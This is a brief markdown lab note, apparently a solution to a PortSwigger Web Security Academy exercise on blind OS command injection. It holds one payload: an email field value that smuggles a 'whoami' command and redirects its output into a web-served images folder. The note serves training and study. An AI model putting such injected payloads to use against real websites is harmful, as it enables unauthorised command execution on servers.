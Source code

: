 # Lab

https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection

## Payload

`email=||whoami>/var/www/images/output.txt||`